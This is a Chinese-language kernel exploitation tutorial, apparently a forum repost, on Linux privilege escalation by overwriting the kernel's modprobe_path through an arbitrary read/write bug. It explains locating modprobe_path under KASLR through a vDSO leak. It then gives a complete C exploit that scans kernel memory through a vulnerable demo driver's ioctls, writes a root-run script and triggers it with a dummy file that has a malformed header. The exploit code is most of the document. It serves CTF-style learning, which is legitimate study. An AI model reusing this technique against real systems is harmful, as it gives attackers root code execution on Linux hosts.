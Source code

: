 # linux 内核提权总结(demo+exp分析) -- 任意读写(四)


[发表于看雪论坛](https://bbs.pediy.com/user-839858.htm)

## hijack_modprobe_path篇

+ 原理同hijack_prctl, 当用户执行错误格式的elf文件时内核调用call_usermodehelper(char *modprobe_path ...)
+ 修改modprobe后，即可实现root权限任意命令执行

+ 攻击流程
    - (内核任意读写漏洞)内核修改全局变量 modprobe_path为目标指令
    - 写入错误格式elf文件，并手动执行，触发


### 一. 利用步骤

#### 1. 定位modprobe_path(开启kaslr)

+ 同hijack_vdso，泄漏vdso地址，因为内核kaslr开启后，只有较高字节的地址发生偏移，且vdso与基地址相距较近，所以可以使用vdso定位内核加载地址

+ 获得当前调试阶段modprobe_path与内核基地址固定偏移

+ modprobe_path_addr = 内核基地址+固定偏移

#### 2. 修改modprobe_path 为任意指令

### 二. 驱动代码(见cred)

### 三. exp

``` c
#define _GNU_SOURCE

#include <stdio.h>
#include <string.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>
#include <sys/ioctl.h>
#include <sys/auxv.h>
#include <sys/prctl.h>

#define CHANGE_POINT 0x100000
#define RW_READ 0x100001
#define RW_WRITE 0x100002

size_t modprobe_path = 0xe3cba0;
size_t vmlinux_base = 0;

struct vunl
{
    char *point;
    size_t size;
} VUNL;

void leak_data(int fd, char *buf)
{
    char *res = NULL;

    VUNL.size = 0x1000;
    for (size_t addr = 0xffffffff80000000; addr < 0xffffffffffffffff; addr += 0x1000)
    {
        VUNL.point = (char *)addr;

        ioctl(fd, CHANGE_POINT, &VUNL); //change the point
        ioctl(fd, RW_READ, buf);
        if (!strcmp("gettimeofday", buf + 0x2b5))
        {
            printf("[+] the addr of VDSO is: 0x%lx\n", addr);
            vmlinux_base = addr & 0xffffffffff000000;
            printf("[+] the addr of vmlinux base is: 0x%lx\n", vmlinux_base);
            break;
        }

        puts("[-] not found, try again!\n");
    }
    return;
}

int main(int argc, char *argv[])
{
    int fd = 0;
    char *buf = malloc(0x1000);

    fd = open("/dev/rw_any_dev", O_RDWR);
    leak_data(fd, buf);
    modprobe_path += vmlinux_base;
    printf("[+] the addr of modprobe_path is: 0x%lx\n", modprobe_path);

    VUNL.size = strlen(argv[1])+1;
    VUNL.point = (char *)modprobe_path;
    ioctl(fd, CHANGE_POINT, &VUNL);
    ioctl(fd, RW_WRITE, argv[1]);

    system("echo -ne '#!/bin/sh\nchmod 777 /flag' > /su.sh");
    system("chmod +x /su.sh");
    system("echo -ne '\\xff\\xff\\xff\\xff' > /dummy");
    system("chmod +x /dummy");

    system("/dummy");

    return 0;
}
```




